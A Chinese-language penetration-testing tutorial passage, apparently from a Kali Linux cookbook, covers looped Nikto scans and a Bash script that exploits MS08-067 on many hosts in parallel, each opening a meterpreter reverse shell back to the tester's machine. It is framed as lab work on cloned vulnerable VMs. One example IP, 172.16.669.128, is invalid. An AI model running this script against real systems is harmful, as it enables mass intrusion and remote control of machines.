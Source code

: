 1.  检查`172.16.669.128`的报告时，我们发现 Nikto 的扫描结果：

![](img/00241.jpeg)

1.  在提供的示例中，脚本被传递给`netscan.txt`输出文件。通过快速分析该文件，脚本确定有四个系统在`80`端口上运行服务。然后，Nikto 对这些服务进行扫描，结果输出到终端，并为每个主机生成一个文件：

![](img/00640.jpeg)

# 工作原理……

通过将 grep 序列作为 `for` 循环的值，本文中的 Bash 脚本实际上就是在循环执行该函数的输出。通过独立运行该函数，可以看到它只是提取出一份与运行 Web 服务的主机相对应的 IP 地址列表。然后，`for` 循环遍历这些 IP 地址，并对每个地址运行 Nikto 扫描。

# 使用反向 shell 有效载荷进行的多线程 MSF 利用

使用 Metasploit 框架进行大规模渗透测试的一大难点是每个利用都必须单独并按顺序执行。在需要确认多个系统中单个漏洞的可利用性时，单独对每个系统进行利用会变得既繁琐又令人不堪重负。幸运的是，通过结合 MSFCLI 和 Bash 脚本的强大功能，可以通过运行单个脚本轻松地在多个系统上同时执行利用。这一示例将演示如何使用 Bash 在多个系统上利用同一漏洞，并为每个系统打开一个 meterpreter shell。

# 准备工作

要使用本示例中的脚本，您需要能够访问多个具有相同漏洞的系统，并且这些漏洞可以通过 Metasploit 进行利用。在提供的示例中，一台运行易受攻击的 Windows XP 版本的虚拟机被复制，生成了三个 MS08-067 漏洞实例。有关如何设置 Windows 系统的更多信息，请参阅 第一章中的 *安装 Windows 服务器* 配方，*入门*。此外，本部分还需要使用如 Vim 或 GNU nano 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅 第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 配方，*入门*。

# 如何操作……

以下示例演示了如何使用 Bash 脚本同时利用同一漏洞的多个实例。这个脚本特别用于通过引用输入的 IP 地址列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file> <LHOST>"; exit; fi
iplist=$1
lhost=$2

i=4444
for ip in $(cat $iplist)
do
       gnome-terminal -x msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST $ip; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $lhost; set LPORT $i; run"
 echo "Exploiting $ip and establishing reverse connection on local port $i"
i=$(($i+1))
done

```
